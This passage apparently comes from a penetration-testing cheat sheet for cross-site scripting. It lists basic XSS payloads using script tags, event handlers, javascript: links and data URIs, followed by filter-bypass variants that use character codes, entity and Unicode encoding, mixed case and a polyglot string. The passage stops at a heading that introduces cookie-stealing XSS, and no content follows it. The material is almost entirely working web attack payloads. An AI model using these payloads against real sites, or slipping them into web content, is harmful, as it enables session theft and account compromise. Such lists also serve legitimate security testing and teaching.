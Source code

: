 **Common payloads:**

```html
<!-- Basic alert -->
<script>alert('XSS')</script>

<!-- Image tag -->
<img src=x onerror=alert('XSS')>

<!-- SVG -->
<svg onload=alert('XSS')>

<!-- Body tag -->
<body onload=alert('XSS')>

<!-- Input tag -->
<input onfocus=alert('XSS') autofocus>

<!-- Markdown XSS -->
[Click me](javascript:alert('XSS'))

<!-- Event handlers -->
<div onmouseover="alert('XSS')">Hover me</div>

<!-- Data URI -->
<a href="data:text/html,<script>alert('XSS')</script>">Click</a>
```

**Advanced XSS payloads:**

```html
<!-- Bypass filters -->
<script>alert(String.fromCharCode(88,83,83))</script>  <!-- alert('XSS') -->

<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">  <!-- HTML entity encoding -->

<img src=x onerror="\u0061\u006c\u0065\u0072\u0074('XSS')">  <!-- Unicode escape -->

<!-- Without quotes -->
<script>alert(document.domain)</script>

<!-- Without parentheses (ES6) -->
<script>onerror=alert;throw 1</script>

<!-- Bypass uppercase filter -->
<ScRiPt>alert('XSS')</sCrIpT>

<!-- Polyglot payload (works in multiple contexts) -->
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

**XSS for cookie stealing:**
